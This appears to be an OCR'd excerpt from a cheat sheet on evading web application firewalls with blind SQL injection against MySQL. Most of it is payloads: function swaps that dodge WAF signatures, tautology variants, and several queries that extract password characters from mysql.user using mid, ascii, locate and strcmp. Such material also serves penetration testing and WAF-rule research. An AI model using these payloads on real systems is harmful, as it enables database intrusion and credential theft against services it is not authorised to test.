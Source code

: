 It becomes possible to exploit the vulnerability with the method of
blind-SQL Injection by replacing SQL functions that get to WAF
signatures with their synonyms.
<i> substring() -\> mid(), substr()
ascii() -\> hex(), bin()
benchmark() -\> sleep() </i>
<u>Wide variety of logical requests.</u>
and 1
or 1
and 1=1
and 2\<3
and 'a'='a'
and 'a'\<\>'b'
and char(32)=' '
and 3\<=2
and 5\<=\>4
and 5\<=\>5
and 5 is null
or 5 is not null
....
<b>An example of various request notations with the same meaning.</b>
select user from mysql.user where user = 'user' OR
mid(password,1,1)='\*'
select user from mysql.user where user = 'user' OR
mid(password,1,1)=0x2a
select user from mysql.user where user = 'user' OR
mid(password,1,1)=unhex('2a')
select user from mysql.user where user = 'user' OR mid(password,1,1)
regexp '\[\*\]'
select user from mysql.user where user = 'user' OR mid(password,1,1)
like '\*'
select user from mysql.user where user = 'user' OR mid(password,1,1)
rlike '\[\*\]'
select user from mysql.user where user = 'user' OR
ord(mid(password,1,1))=42
select user from mysql.user where user = 'user' OR
ascii(mid(password,1,1))=42
select user from mysql.user where user = 'user' OR
find_in_set('2a',hex(mid(password,1,1)))=1
select user from mysql.user where user = 'user' OR position(0x2a in
password)=1
select user from mysql.user where user = 'user' OR
locate(0x2a,password)=1
<b>Known:
</b> substring((select 'password'),1,1) = 0x70
substr((select 'password'),1,1) = 0x70
mid((select 'password'),1,1) = 0x70
<b>New:</b>
strcmp(left('password',1), 0x69) = 1
strcmp(left('password',1), 0x70) = 0
strcmp(left('password',1), 0x71) = -1
STRCMP(expr1,expr2) returns 0 if the strings are the same, -1 if the
first , argument is smaller than the second one, and 1 otherwise.
